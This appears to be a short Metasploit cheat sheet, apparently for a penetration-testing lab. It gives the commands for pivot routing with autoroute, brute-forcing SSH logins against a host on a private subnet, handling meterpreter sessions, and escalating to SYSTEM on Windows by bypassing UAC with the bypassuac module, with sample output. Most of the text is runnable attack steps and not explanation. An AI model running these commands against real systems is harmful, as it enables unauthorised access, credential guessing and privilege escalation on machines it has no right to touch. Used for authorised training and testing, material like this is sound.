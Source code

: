### <b>Add routing protocols in msfconsole</b>

`meterpreter> run autoroute -s 172.16.50.0/24`

### <b>Use SSH Bruteforce in msfconsole</b>

```
use auxiliary/scanner/ssh/ssh_login
show options
set rhosts 172.16.50.222
set user_file /usr/share/ncrack/minimal.usr
set pass_file /usr/share/ncrack/minimal.usr
set verbose true
run
```

<b>View Active sessions using `sessions` command</b><br>
<b>Interact with `sessions` using `sessions -i <number>`<b>
<b>Background a shell using <i>meterpreter> `background`</i> command</b>



Note that in modern Windows Operating systems, the User Account Control policy prevents privilege escalation.

```
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect.
```
<b>Bypassing UAC</b>

You can bypass that restriction by using the bypassuac module.

```
meterpreter > background
[*] backgrounding session1 …

msf exploit(handler) > search bypassuac

msf  exploit(handler) > use exploit/windows/local/bypassuac

# Configuring the module

msf exploit(bypassuac) > show options
msf exploit(bypassuac) > set session 1
msf exploit(bypassuac) > exploit

# Bypassing UAC

The new session has the UAC policy disabled, so the getsystem command works !

meterpreter > getuid
Server username: els\els
meterpreter > getsystem
…got system (via technique 1)
```
